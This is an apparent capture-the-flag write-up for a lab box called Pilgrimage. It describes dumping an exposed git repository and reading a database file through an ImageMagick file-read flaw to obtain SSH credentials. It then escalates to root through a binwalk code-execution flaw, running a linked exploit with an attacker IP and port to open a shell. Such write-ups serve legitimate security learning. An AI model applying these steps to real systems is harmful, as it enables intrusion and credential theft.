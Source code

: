 ```yaml
---
title: Pilgrimage
date: 2023-11-25
published: true
categories: ["CTF"]
tags: ["ctf",  "git", "CVE-2022-44268", "CVE-2022-4510"]
---
```

# Pilgrimage
This was an easy  box that featured an unprotected git repository that we could use to see that it is using vulnerable
software that we can use to read a sensitive file containing a password and then ssh into the box. Then we see that root 
is running a custom script that was executing a vulnerable version of binwalk that we could use to get a shell as root.
## Recon
### nmap
We see the ports 22 and 80 are open, so the only attack vector is the website, so we can go to the website.
![img.png](/assets/img/pilgrimage/img.png)

### port 80
We see that there is a host name we need to add to /etc/hosts before we can reach the website. We also can then 
fuzz for subdomains but that doesn't give us anything, so we can leave this and fuzz for subdomains.

![img_1.png](/assets/img/pilgrimage/img_1.png)

We see on the ffuf results there is a .git directory that we can access, so we can use a tool like 
[git_dumper](https://github.com/arthaud/git-dumper) to get all
the files that are stored in the git repository and then analyze the source code.

![img_2.png](/assets/img/pilgrimage/img_2.png)

We see that in the git files there is the application called magick which is an application that does image processing 
and if we look at the version we see that the version is 7.10-0-49 and that is vulnerable to
[lfi](https://www.exploit-db.com/exploits/51261) which we can use to read sensitive files.

![img_3.png](/assets/img/pilgrimage/img_3.png)

### LFI

If we go to the website we see that we register an account, and then we can upload an image that gets resized likely using 
the magick application, so we can use the lfi to read files. If we look at the source code and in login.php the database 
that is being used is stored in /var/db/pilgrimage so if we can read that we might be able to get a password to log in with ssh, so we 
upload the malicious image which gets resized and triggers the exploit when it is resized. Then we can `wget http://pilgrimage.htb/shrunk/image_id`
to get the image, and then we can read the data that using `identify -verbose image_name.png`
and then converting the hex to the ascii equivalent to see if there is anything interesting.

![img_4.png](/assets/img/pilgrimage/img_4.png)

![img_5.png](/assets/img/pilgrimage/img_5.png)

In the database file we see that there is a username of emily and the password that we can try to use to ssh into the box
which is successful.

![img_6.png](/assets/img/pilgrimage/img_6.png)
## Shell as Root
If we look at sudo -l we see that we cant run anything as sudo we can and there is no special suid programs that we can
exploit. We can upload pspy64 on the box and see what processes are running on the box and see that there is a custom
malware.sh script that is being as root.

![img_7.png](/assets/img/pilgrimage/img_7.png)

The script is running binwalk on files uploaded to /var/www/pilgrimage.htb/shrunk, so we can look at the version on binwalk
to see what version of binwalk is being used on the box.
```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```

we see running `/usr/local/bin/binwalk` the version of binwalk is v2.3.2 and there is a 
[rce](https://www.exploit-db.com/exploits/51249) on this version. Which we can use to get privileges as root. If we run 
the `python3 exp.py /var/www/pilgrimage.htb/shrunk/6561bb2e1406b.png 10.10.14.3 1234
` with exp.py being the exploit from the link earlier. Then we can copy the created image to the /var/www/pilgrimage.htb/shrunk directory
so that it triggers the inotify event create and executes the script and gives us a root privileges because the image is
passed into binwalk and gives us rce.

![img_8.png](/assets/img/pilgrimage/img_8.png)
